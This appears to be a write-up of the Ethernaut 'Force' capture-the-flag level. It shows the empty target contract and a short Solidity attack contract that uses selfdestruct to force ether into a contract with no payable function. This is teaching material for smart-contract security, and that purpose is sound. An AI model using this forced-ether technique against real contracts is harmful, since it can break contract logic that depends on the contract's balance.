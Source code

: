 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Look Over Target Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

contract Attack{

    address payable target;

    constructor(address payable _target){
        target = _target;
    }

    function attack()public payable{
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain. Also, selfdestruct sends all remaining ether stored in the contract to a designated address.

